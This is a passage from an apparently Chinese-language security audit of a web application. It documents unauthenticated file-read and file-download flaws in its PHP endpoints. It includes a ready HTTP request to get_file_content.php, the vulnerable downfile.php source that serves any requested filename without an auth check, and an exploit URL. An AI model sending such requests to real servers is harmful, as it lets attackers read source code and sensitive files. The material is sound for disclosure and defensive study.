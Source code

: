读取Web根目录的index.php文件进行尝试：

```http
POST /receive_file/get_file_content.php HTTP/1.1
Host: x.x.x.x
Content-Length: 51
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7p
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SCNum=1; GUID=BB419A33-46DA-E7F9-EC4C-28A84310E5EE; SCIP=192.168.65.132; topSC=0; kidtype=1; hid=B29D21EF; sn=105000-011000-000000-000000; SKYLARa0aede9e785feabae789c6e03d=nq482l70id4vuiou5ojfpo1654
Connection: close

filepath=index.php
```

成功回显文件内容，失败回显‘no file founggd’或404或空页面（也有可能是文件为空）。

#### 3. /htmltopdf/downfile.php 未授权文件下载

该页面中未检查filename和cookie鉴权直接就进行下载文件：

```PHP
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

filename传入需要下载的文件，成功回显文件内容：

`http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=index.php`

#### 4. /kd.php 文件下载

开头引入kli.php，该文件是登陆类，用于登陆检查，为了调用line 10的checkLogin判断是否登录。

```php
<?php

   include 'kli.php';

   header("Content-type:text/html;charset=utf-8");
   // if($_POST["ak"] !== 'ks')
   // {
   //   exit();
   // }
   if($login->checkLogin($_COOKIE['kusession'])=='0')
 	{
     echo 'Please login first.';
 		exit();
 	}
```